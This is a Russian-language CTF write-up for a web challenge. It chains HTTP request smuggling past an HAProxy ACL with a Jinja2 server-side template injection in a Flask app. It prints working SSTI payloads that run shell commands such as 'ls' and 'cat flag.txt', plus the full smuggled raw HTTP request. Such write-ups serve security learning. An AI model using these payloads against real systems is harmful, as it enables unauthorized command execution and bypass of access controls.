


# Web 3
Вводим имя, получаем перенаправление на /flag, на котором получаем 403:
 \
Читаем исходники и видим, что на сервере стоит haproxy, который не пускает нас на /flag. Из haproxy.cfg:
```
    acl restricted_page path_beg,url_dec -i /flag
    http-request deny if restricted_page
```
Ищем "haproxy exploit 1.9.10" в Яндексе, долго копаемся в поисковой выдаче, пока не наткнёмся на: \
https://blog.shoebpatel.com/2020/05/18/DefCon-CTF-2020-HTTP-Desync-between-HAProxy-Gunicorn/ \
Используя http  smuggling обходим прокси и делаем запрос к /flag(много раз, пока не получим ответ на 2 запрос). В самом запросе в поле name вставляем простой ssti, который можно заметить в коде app.py:
```
@app.route('/flag')
def index():
    code = request.args.get('name')
    contains_forbidden = sanitize_input(code)
    if not contains_forbidden:
        html = "<h1>привет</h1><p><h3> %s </h3><p>" % (code[:100])
    else:
        html = "<h1> Содержит запрещенные символы</h1>"
    return render_template_string(html)
```
")

Поднимаем локально через докер, убирая ограничение на /flag в haproxy, чтобы потренироваться с пейлоадом:

")

C помощью https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection подбираем пейлоад:
```
{{config.__init__.__globals__.__builtins__.__import__("os").popen("ls").read()}}
```
")
А потом:
```
{{config.__init__.__globals__.__builtins__.__import__("os").popen("cat%20flag.txt").read()}}
```
")

Повторяем то же самое на сервере вместе с http smugglinhg ^-^:\

Итоговый запрос:
```
GET / HTTP/1.1
Host:192.168.12.11:8001
Content-Length: 160
Transfer-encoding:chunked

5
fffff
0

GET /flag?name={{config.__init__.__globals__.__builtins__.__import__("os").popen("cat%20flag.txt").read()}} HTTP/1.1
Host:192.168.12.11:8001


```
